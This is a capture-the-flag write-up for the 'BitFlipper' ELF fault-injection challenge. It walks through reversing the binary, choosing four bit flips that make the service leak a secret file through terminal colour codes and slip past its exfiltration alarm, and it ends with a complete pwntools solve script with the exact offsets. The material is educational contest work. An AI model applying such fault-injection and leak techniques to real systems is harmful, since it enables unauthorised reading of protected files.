 # BitFlipper

When we first connect to the service, we are prompted with:

```-------------------------------------------------------
      Bitflipper - ELF Fault Injection Framework
-------------------------------------------------------
Test program md5:  30acc4aee186d6aef8e9e2036008a710
-------------------------------------------------------
How many faults you want to introduce?```

After playing around with this for a while, I discover:
- This service flips the bits of an ELF binary
- You can introduce at most 4 faults
- Server runs the binary
- Introducing 0 bits does a fancy directory listing
- Server will dump any core files in the directory

The files are as follows:
```README
abc.jpg
archive.zip
beta.doc
celtic.png
dir
secret_flag.txt
test.doc
version.txt
```

If we make the binary a core file, then the server will give it to us! We can do this by looking at the wikipedia for ELF headers (https://en.wikipedia.org/wiki/Executable_and_Linkable_Format) and see that if the value at offset 0x10 is 4, then it is a core file. So we flip the byte at offset 0x10 to a 4, and the server returns the ELF binary.

I first started with static analysis. Loading it into IDA, we begin to reverse engineer it. Here is what it does:

1) opens current directory and loads all filenames into an array
2) opens ".dircolors" and loads the value before a newline into a global array, we will call this the colors array
3) iterates through filename array and prints the filename the color loaded in the colors array

We only have four bits to flip, so that suggests that our changes will have to be within the existing code. First thing's first, the absolute necessity is to have an open filestream to the secret_flag.txt. Otherwise, we would never be able to access its contents. Since we only have four bits, we have to reuse code. Looking at step 2 above, in that function we see that the binary opens a file, reads it into a buffer, then gets loaded into a buffer.

To find out how to open the file, I began performing dynamic analysis. Setting a breakpoint right before the open function where the string pointer to ".dircolors" is loaded into rdi, I find that right before it's loaded, rdi is pointing to a filename! More specifically, the first file in my directory. So, if we change this instruction to load the string pointer to some register we don't care about, then the open function performs open on the first file! I changed mov rdi, filepointer to mov rdx, filepointer using the bit flip at offset 0xdb0*8+5.

Now that we have a open primitive, we want to get it to open our flag file. To do this, we can look in the main function and see that there is a check for the first character of the filename in the directory:

```C
 if ( curName->d_type == 8 && curName->d_name[0] > '/' && curName->d_name[0] <= 'z' )
        fileList = (const char **)listAdd((__int64)fileList, curName->d_name);
```

So we can actually change the lower bound of this ascii check to something higher than ord('d'). Thus, everything before secret_flag.txt will be cut off, and the flag will be the first file which then gets passed to open. I did this by flipping the bit at 0xfcf*8+6.

Now, we have to read the flag that is loaded into memory with 2 bits left. After the flag contents is loaded into a buffer, it eventually gets freed. So I thought if you change free(buf) to printf(buf), then it would print the flag! We can do this with 2 bits too. However, when I tried this, I was greeted by *this*: 

```
ALARM!!
The output contained the content of a local file.
This is in violation of the security policy --> the exfiltration attempt has been blocked!!
```

Drats. What kind of alarm is this >:(

So the correct way to do it is to change the newline check when iterating through the buffer from if ( *((_BYTE *)buf + v1) == 10 ) to if ( *((_BYTE *)buf + v1) != 10 ). This ensures that every character in buf gets put into the colors array, instead of just the last character. I did this using offset 0xe85*8. Next we look in main and see that there is a check to only print each filename once:

```C
foundColor = 0;
for ( j = 0; j <= 15 && foundColor == 0 && colorTable[j]; ++j )
{
  if ( strstr(*pFilename, colorTable[j]->pszLine) )
  {
    printf("\x1B[%dm%s\x1B[0m\n", colorTable[j]->lastCharDecimalValue + 30, *pFilename, v4);
    foundColor = 1;
  }
}
if ( !foundColor )
  puts(*pFilename);
 ```

The colors array is iterated, however it only gets printed once because of foundColor. So, if we change foundColor = 1 to foundColor = 0, then everything in colors array will get printed. This is offset 0x10fb*8.

Now using these four bit flips, we run it on the server and get:

```
['\x1b[-18msecret_flag.txt\x1b[0m', '\x1b[80msecret_flag.txt\x1b[0m', '\x1b[87msecret_flag.txt\x1b[0m', '\x1b[98msecret_flag.txt\x1b[0m', '\x1b[84msecret_flag.txt\x1b[0m', '\x1b[90msecret_flag.txt\x1b[0m', '\x1b[87msecret_flag.txt\x1b[0m', '\x1b[94msecret_flag.txt\x1b[0m', '\x1b[77msecret_flag.txt\x1b[0m', '\x1b[91msecret_flag.txt\x1b[0m', '\x1b[79msecret_flag.txt\x1b[0m', '\x1b[82msecret_flag.txt\x1b[0m', '\x1b[92msecret_flag.txt\x1b[0m', '\x1b[83msecret_flag.txt\x1b[0m', '\x1b[97msecret_flag.txt\x1b[0m', '\x1b[97msecret_flag.txt\x1b[0m', 'secret_flag.txt', '\x1b[-18mtest.doc\x1b[0m', '\x1b[80mtest.doc\x1b[0m', '\x1b[87mtest.doc\x1b[0m', '\x1b[98mtest.doc\x1b[0m', '\x1b[84mtest.doc\x1b[0m', '\x1b[90mtest.doc\x1b[0m', '\x1b[87mtest.doc\x1b[0m', '\x1b[94mtest.doc\x1b[0m', '\x1b[77mtest.doc\x1b[0m', '\x1b[91mtest.doc\x1b[0m', '\x1b[79mtest.doc\x1b[0m', '\x1b[82mtest.doc\x1b[0m', '\x1b[92mtest.doc\x1b[0m', '\x1b[83mtest.doc\x1b[0m', '\x1b[97mtest.doc\x1b[0m', '\x1b[97mtest.doc\x1b[0m', 'test.doc', '\x1b[-18mversion.txt\x1b[0m', '\x1b[80mversion.txt\x1b[0m', '\x1b[87mversion.txt\x1b[0m', '\x1b[98mversion.txt\x1b[0m', '\x1b[84mversion.txt\x1b[0m', '\x1b[90mversion.txt\x1b[0m', '\x1b[87mversion.txt\x1b[0m', '\x1b[94mversion.txt\x1b[0m', '\x1b[77mversion.txt\x1b[0m', '\x1b[91mversion.txt\x1b[0m', '\x1b[79mversion.txt\x1b[0m', '\x1b[82mversion.txt\x1b[0m', '\x1b[92mversion.txt\x1b[0m', '\x1b[83mversion.txt\x1b[0m', '\x1b[97mversion.txt\x1b[0m', '\x1b[97mversion.txt\x1b[0m', 'version.txt', '', '-------------------------------------------------------']
```

Extracting the decimal values before m, ['80', '87', '98', '84', '90', '87', '94', '77', '91', '79', '82', '92', '83', '97', '97'], then converting it to ascii gives us gibberish. The reason is because of these two lines:

```C
entry->lastCharDecimalValue -= '0';
// and
printf("\x1B[%dm%s\x1B[0m\n", colorTable[j]->lastCharDecimalValue + 30, *pFilename, v4);
```

When the value is being loaded, it gets subtracted by 48. When it is being printed, 30 is added to its value. Therefore we have to add 18 to each decimal value for the flag.

Solve script:
```python
from pwn import *
def pow_hash(challenge, solution):
    return hashlib.sha256(challenge.encode('ascii') + struct.pack('<Q', solution)).hexdigest()

def check_pow(challenge, n, solution):
    h = pow_hash(challenge, solution)
    return (int(h, 16) % (2**n)) == 0
def solve_pow(challenge, n):
    candidate = 0
    while True:
        if check_pow(challenge, n, candidate):
            return candidate
        candidate += 1
p=remote('61421a06.quals2018.oooverflow.io', 5566)
p.recvuntil("Challenge: ")
x=p.recvline()[:-1]
p.recvuntil("n: ")
y=int(p.recvline()[:-1])
p.recv()
ans=solve_pow(x,y)
p.sendline(str(ans))

openheap=0xdb0*8+5
lowlim = 0xfcf*8
jnz = 0xe85*8
foundcolor = 0x10fb*8
p.sendline("4")
p.sendline(str(jnz))
p.sendline(str(openheap))
p.sendline(str(lowlim+6))
p.sendline(str(foundcolor))
p.recvuntil("now...")
p.recvuntil("-------------------------------------------------------")
sice = p.recvuntil("-------------------------------------------------------").strip().split("\n")

flag = ""
for i in sice:
    flag += chr(int(i.strip("\x1b[").split("m")[0]) + 18)
    print flag

p.interactive()
```

## Flag: bitflip_madness
